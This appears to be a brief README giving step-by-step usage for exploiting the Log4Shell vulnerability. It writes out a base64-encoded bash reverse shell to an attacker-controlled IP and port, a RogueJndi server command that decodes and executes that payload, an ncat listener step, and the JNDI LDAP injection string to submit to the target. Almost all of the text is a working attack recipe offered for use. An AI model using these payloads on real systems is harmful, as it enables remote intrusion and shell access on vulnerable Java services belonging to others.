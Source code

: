 Exploit log4shell.
Usage:
1. Make payload: `echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64`
2. Start server 
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64STRINGHERE
}|
{base64,-d}|{bash,-i}" --hostname "{OWN_IP}"   
```
3. Start ncat listener on specified port
4. Enter the payload `${jndi:ldap://{YOURIP}:1389/o=tomcat}`
